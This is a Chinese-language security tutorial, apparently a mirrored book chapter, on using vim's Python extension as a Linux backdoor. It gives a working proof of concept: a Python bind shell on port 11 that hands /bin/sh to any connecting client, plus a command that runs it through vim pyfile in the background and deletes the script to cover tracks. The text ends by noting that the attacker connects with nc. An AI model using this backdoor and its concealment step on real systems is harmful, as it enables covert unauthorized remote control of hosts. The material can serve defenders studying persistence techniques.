 # vim python 扩展后门

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/10.html](http://book.iwonder.run/安全技术/Linux 后门/10.html)

适用于安装了 vim 且安装了 python 扩展(绝大版本默认安装)的 linux 系统。可以通过 vim 的 pyfile 来执行 python 脚本。这里我复现使用了 docker centos 6.8，yum 默认安装的 vim。下面的 pdf 是发现者对外公开的思路：

> [https://github.com/ianxtianxt/WOTD](https://github.com/ianxtianxt/WOTD)

这里我们使用一个 python 开启本地监听 11 端口的脚本。 POC:

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True) 
```

```
$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py 
```

执行以后：

![image](img/211d1e355326c8752feb252308e9f1a7.png)

![image](img/72a31342c05730d66d7a89153fe3290b.png)

我在攻击机 nc 连接过去就可以了。

